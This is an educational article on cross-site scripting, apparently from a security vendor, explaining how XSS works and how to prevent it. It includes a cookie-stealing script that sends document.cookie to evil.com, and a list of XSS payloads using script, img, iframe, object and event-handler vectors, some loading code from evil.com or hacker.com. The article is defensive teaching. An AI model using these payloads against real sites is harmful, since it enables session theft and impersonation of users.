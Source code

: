 Cross-site Scripting (XSS) is a client-side code injection attack. The attacker aims 
to execute malicious scripts in a web browser of the victim by including malicious 
code in a legitimate web page or web application. The actual attack occurs when 
the victim visits the web page or web application that executes the malicious code. 
The web page or web application becomes a vehicle to deliver the malicious script 
to the user’s browser. Vulnerable vehicles that are commonly used for Cross-site Scripting 
attacks are forums, message boards, and web pages that allow comments.

A web page or web application is vulnerable to XSS if it uses unsanitized user 
input in the output that it generates. This user input must then be parsed by the 
victim’s browser. XSS attacks are possible in VBScript, ActiveX, Flash, and even CSS. 
However, they are most common in JavaScript, primarily because JavaScript is fundamental 
to most browsing experiences.

“Isn’t Cross-site Scripting the User’s Problem?”

If an attacker can abuse an XSS vulnerability on a web page to execute arbitrary 
JavaScript in a user’s browser, the security of that vulnerable website or vulnerable 
web application and its users has been compromised. XSS is not the user’s problem like 
any other security vulnerability. If it is affecting your users, it affects you.

Cross-site Scripting may also be used to deface a website instead of targeting the user. 
The attacker can use injected scripts to change the content of the website or even redirect 
the browser to another web page, for example, one that contains malicious code.
What Can the Attacker Do with JavaScript?

XSS vulnerabilities are perceived as less dangerous than for example SQL Injection 
vulnerabilities. Consequences of the ability to execute JavaScript on a web page 
may not seem dire at first. Most web browsers run JavaScript in a very tightly 
controlled environment. JavaScript has limited access to the user’s operating 
system and the user’s files. However, JavaScript can still be dangerous if misused 
as part of malicious content:

    Malicious JavaScript has access to all the objects that the rest of the web page 
    has access to. This includes access to the user’s cookies. Cookies are often used 
    to store session tokens. If an attacker can obtain a user’s session cookie, they 
    can impersonate that user, perform actions on behalf of the user, and gain access 
    to the user’s sensitive data.
    JavaScript can read the browser DOM and make arbitrary modifications to it. 
    Luckily, this is only possible within the page where JavaScript is running.
    JavaScript can use the XMLHttpRequest object to send HTTP requests with 
    arbitrary content to arbitrary destinations.
    JavaScript in modern browsers can use HTML5 APIs. For example, it can 
    gain access to the user’s geolocation, webcam, microphone, and even 
    specific files from the user’s file system. Most of these APIs require 
    user opt-in, but the attacker can use social engineering to go around that limitation.

The above, in combination with social engineering, allow criminals to pull off 
advanced attacks including cookie theft, planting trojans, keylogging, phishing, 
and identity theft. XSS vulnerabilities provide the perfect ground to escalate 
attacks to more serious ones. Cross-site Scripting can also be used in conjunction 
with other types of attacks, for example, Cross-Site Request Forgery (CSRF).

There are several types of Cross-site Scripting attacks: stored/persistent XSS, 
reflected/non-persistent XSS, and DOM-based XSS. You can read more about them 
in an article titled Types of XSS.

How Cross-site Scripting Works

There are two stages to a typical XSS attack:

    To run malicious JavaScript code in a victim’s browser, an attacker must first find a 
    way to inject malicious code (payload) into a web page that the victim visits.
    After that, the victim must visit the web page with the malicious code. If the attack 
    is directed at particular victims, the attacker can use social engineering and/or 
    phishing to send a malicious URL to the victim.

For step one to be possible, the vulnerable website needs to directly include user input 
in its pages. An attacker can then insert a malicious string that will be used within the 
web page and treated as source code by the victim’s browser. There are also variants of 
XSS attacks where the attacker lures the user to visit a URL using social engineering and 
the payload is part of the link that the user clicks.

The following is a snippet of server-side pseudocode that is used to display the most 
recent comment on a web page:

    print "<html>"
    print "<h1>Most recent comment</h1>"
    print database.latestComment
    print "</html>"

The above script simply takes the latest comment from a database and 
includes it in an HTML page. It assumes that the comment printed out consists 
of only text and contains no HTML tags or other code. It is vulnerable to XSS, 
because an attacker could submit a comment that contains a malicious payload, for example:

    <script>doSomethingEvil();</script>

The web server provides the following HTML code to users that visit this web page:

    <html>
    <h1>Most recent comment</h1>
    <script>doSomethingEvil();</script>
    </html>

When the page loads in the victim’s browser, the attacker’s malicious 
script executes. Most often, the victim does not realize it and is unable to prevent such an attack.
Stealing Cookies Using XSS

Criminals often use XSS to steal cookies. This allows them to impersonate 
the victim. The attacker can send the cookie to their own server in many ways. 
One of them is to execute the following client-side script in the victim’s browser:

    <script>
    window.location="http://evil.com/?cookie=" + document.cookie
    </script>


    The attacker injects a payload into the website’s database by submitting a 
    vulnerable form with malicious JavaScript content.
    The victim requests the web page from the web server.
    The web server serves the victim’s browser the page with attacker’s 
    payload as part of the HTML body.
    The victim’s browser executes the malicious script contained in the HTML 
    body. In this case, it sends the victim’s cookie to the attacker’s server.
    The attacker now simply needs to extract the victim’s cookie when the HTTP request arrives at the server.
    The attacker can now use the victim’s stolen cookie for impersonation.

To learn more about how XSS attacks are conducted, you can refer to an article titled 
A comprehensive tutorial on cross-site scripting.
Cross-site Scripting Attack Vectors

The following is a list of common XSS attack vectors that an attacker could use 
to compromise the security of a website or web application through an XSS attack. 
A more extensive list of XSS payload examples is maintained by the OWASP organization: 
XSS Filter Evasion Cheat Sheet.
    <script> tag

The <script> tag is the most straightforward XSS payload. A script tag can reference external 
JavaScript code or you can embed the code within the script tag itself.

    <!-- External script -->
    <script src=http://evil.com/xss.js></script>
    <!-- Embedded script -->
    <script> alert("XSS"); </script>

JavaScript events

JavaScript event attributes such as onload and onerror can be used in many 
different tags. This is a very popular XSS attack vector.

    <!-- onload attribute in the <body> tag -->
    <body onload=alert("XSS")>

    <body> tag

An XSS payload can be delivered inside the <body> by using event attributes 
(see above) or other more obscure attributes such as the background attribute.

    <!-- background attribute -->
    <body background="javascript:alert("XSS")">

    <img> tag

Some browsers execute JavaScript found in the <img> attributes.

    <!-- <img> tag XSS -->
    <img src="javascript:alert("XSS");">
    <!--  tag XSS using lesser-known attributes -->
    <img dynsrc="javascript:alert('XSS')">
    <img lowsrc="javascript:alert('XSS')">

    <iframe> tag

    The <iframe> tag lets you embed another HTML page in the current page. 
    An IFrame may contain JavaScript but JavaScript in the IFrame does not have access 
    to the DOM of the parent page due to the Content Security Policy (CSP) of the browser. 
    However, IFrames are still very effective for pulling off phishing attacks.

    <!-- <iframe> tag XSS -->
    <iframe src="http://evil.com/xss.html">

    <input> tag

In some browsers, if the type attribute of the <input> tag is set to image, 
it can be manipulated to embed a script.

    <!-- <input> tag XSS -->
    <input type="image" src="javascript:alert('XSS');">

    <link> tag

The <link> tag, which is often used to link to external style sheets, may contain a script.

    <!-- <link> tag XSS -->
    <link rel="stylesheet" href="javascript:alert('XSS');">

    <table> tag

The background attribute of the <table> and <td> tags can be exploited to refer to a script instead of an image.

    <!-- <table> tag XSS -->
    <table background="javascript:alert('XSS')">
    <!-- <td> tag XSS -->
    <td background="javascript:alert('XSS')">

    <div> tag

The <div> tag, similar to the <table> and <td> tags, can also specify a background and therefore embed a script.

    <!-- <div> tag XSS -->
    <div style="background-image: url(javascript:alert('XSS'))">
    <!-- <div> tag XSS -->
    <div style="width: expression(alert('XSS'));">

<object> tag

The <object> tag can be used to include a script from an external site.

    <!-- <object> tag XSS -->
    <object type="text/x-scriptlet" data="http://hacker.com/xss.html">

Is Your Website or Web Application Vulnerable to Cross-site Scripting

Cross-site Scripting vulnerabilities are one of the most common web application 
vulnerabilities. The OWASP organization (Open Web Application Security Project) 
lists XSS vulnerabilities in their OWASP Top 10 2017 document as the second most prevalent issue.

Fortunately, it’s easy to test if your website or web application is vulnerable 
to XSS and other vulnerabilities by running an automated web scan using the Acunetix 
vulnerability scanner, which includes a specialized XSS scanner module. Take a demo 
and find out more about running XSS scans against your website or web application. 
An example of how you can detect blind XSS vulnerabilities with Acunetix is available 
in the following article: How to Detect Blind XSS Vulnerabilities.
How to Prevent XSS

To keep yourself safe from XSS, you must sanitize your input. Your application code 
should never output data received as input directly to the browser without checking it for malicious code.
